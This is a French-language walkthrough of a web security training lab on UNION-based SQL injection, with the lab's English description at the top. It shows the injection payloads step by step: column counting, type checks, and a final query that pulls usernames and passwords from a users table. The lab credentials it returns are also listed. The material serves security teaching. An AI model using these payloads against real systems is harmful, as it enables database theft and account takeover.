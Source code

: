           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Pour le début, même chose que dans les précédents labs, il faut trouver le nombre de colonnes que contient la requête de la manière suivante :

`https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'UNION SELECT NULL--`

Plus d'internal server error à partir du 2nd NULL, vérifions dorénavant la compatibilité de chaque colonne :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les deux colonnes sont compatibles.


Tentons maintenant de récupérer le mot de passe de l'administrateur.

```
'UNION SELECT username,password FROM users--
```

Les informations suivantes sont renvoyées par le serveur :

- carlos
- l8q5jyynnulbl6stuooi
- administrator
- 1rlwh1lvm4ytp0yubqhe
- wiener
- 8rwfk6bndgcunvflzlnw

Il suffit maintenant de se connecter avec le mot de passe de l'administrateur pour terminer le lab.

